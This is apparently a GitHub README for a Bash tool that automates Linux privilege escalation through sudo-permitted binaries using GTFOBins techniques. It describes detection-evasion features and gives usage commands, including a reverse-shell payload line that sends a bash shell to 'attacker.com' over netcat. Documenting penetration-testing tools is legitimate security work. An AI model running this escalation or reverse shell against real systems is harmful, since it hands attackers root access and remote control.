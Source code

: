 # GTFOBins Privilege Escalation Tool

[![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg)](https://opensource.org/licenses/MIT)

An advanced automated tool for privilege escalation on Linux systems by exploiting sudo binary permissions using GTFOBins techniques.

Created by [Mrx0rd](https://github.com/Wael-Rd)

![GTFOBins Privilege Escalation Tool](https://raw.githubusercontent.com/Wael-Rd/priv-escalation-tools/main/screenshot.png)

## Overview

The GTFOBins Privilege Escalation Tool is a comprehensive Bash script that automates the process of identifying and exploiting sudo binary permissions to gain root access on Linux systems. It leverages the techniques documented in [GTFOBins](https://gtfobins.github.io/) to automatically test and exploit vulnerable binaries.

### Key Features

- **Automated Exploitation**: Automatically identifies and exploits sudo binary permissions
- **Parallel Execution**: Tests multiple exploits simultaneously for faster results
- **Interactive Mode**: Allows manual selection of binaries and exploit methods
- **Stealth Mode**: Reduces output and system impact to avoid detection
- **Self-Update**: Can update exploit techniques directly from GTFOBins
- **Randomization**: Randomizes exploit attempts to evade detection
- **Custom Payloads**: Supports custom command execution instead of default shells
- **Environment Awareness**: Adapts techniques based on container detection and system resources
- **Comprehensive Logging**: Detailed logs of all activities for later analysis

## Installation

```bash
# Clone the repository
git clone https://github.com/Wael-Rd/priv-escalation-tools.git

# Navigate to the directory
cd priv-escalation-tools

# Make the script executable
chmod +x auto-gtfobins-privesc.sh
```

## Usage

### Basic Usage

Run the script without any arguments to automatically detect and exploit sudo permissions:

```bash
./auto-gtfobins-privesc.sh
```

### Command-line Options

```
Usage: ./auto-gtfobins-privesc.sh [options]
Options:
  -i, --interactive    Run in interactive mode
  -s, --stealth        Run in stealth mode (reduced output)
  -u, --update         Update exploits from GTFOBins
  -r, --randomize      Randomize exploit attempts
  -p, --parallel N     Run N exploits in parallel (default: 3)
  -t, --timeout N      Set timeout for exploits in seconds (default: 5)
  --payload 'CMD'      Use custom payload instead of /bin/sh
  -h, --help           Show this help message
```

### Examples

#### Run in Interactive Mode

```bash
./auto-gtfobins-privesc.sh -i
```

This allows you to select specific binaries and exploit methods to try.

#### Run in Stealth Mode

```bash
./auto-gtfobins-privesc.sh -s
```

Reduces output and system impact to minimize detection risk.

#### Custom Parallel Execution and Timeout

```bash
./auto-gtfobins-privesc.sh -p 5 -t 10
```

Runs 5 exploits in parallel with a 10-second timeout for each attempt.

#### Use a Custom Payload

```bash
./auto-gtfobins-privesc.sh --payload 'nc -e /bin/bash attacker.com 4444'
```

Executes a custom command instead of spawning a shell.

## How It Works

1. The script first checks for sudo permissions using `sudo -l`
2. It extracts the list of allowed binaries from the output
3. For each binary, it checks if there's a known GTFOBins exploitation technique
4. It attempts to execute the exploit techniques in parallel
5. If successful, it provides a root shell or executes the specified payload

## Supported Binaries

The tool supports a wide range of binaries documented in GTFOBins, including but not limited to:

- Shell execution: bash, dash, zsh, ksh, etc.
- File operations: cat, cp, mv, find, etc.
- Editors: vim, nano, emacs, etc.
- Programming languages: python, perl, ruby, php, etc.
- Network tools: curl, wget, nc, etc.
- Package managers: apt, pip, etc.

## Security Considerations

This tool is designed for security professionals, penetration testers, and system administrators to test and secure their systems. Unauthorized use on systems without explicit permission is illegal and unethical.

## Contribution

Contributions are welcome! Please feel free to submit a Pull Request.

## License

This project is licensed under the MIT License - see the LICENSE file for details.

## Disclaimer

This tool is provided for educational and professional security testing purposes only. The authors are not responsible for any misuse or damage caused by this tool.

## Acknowledgements

- [GTFOBins](https://gtfobins.github.io/) for documenting these techniques
- [Mrx0rd](https://github.com/Wael-Rd) - Creator and maintainer
- All contributors to the project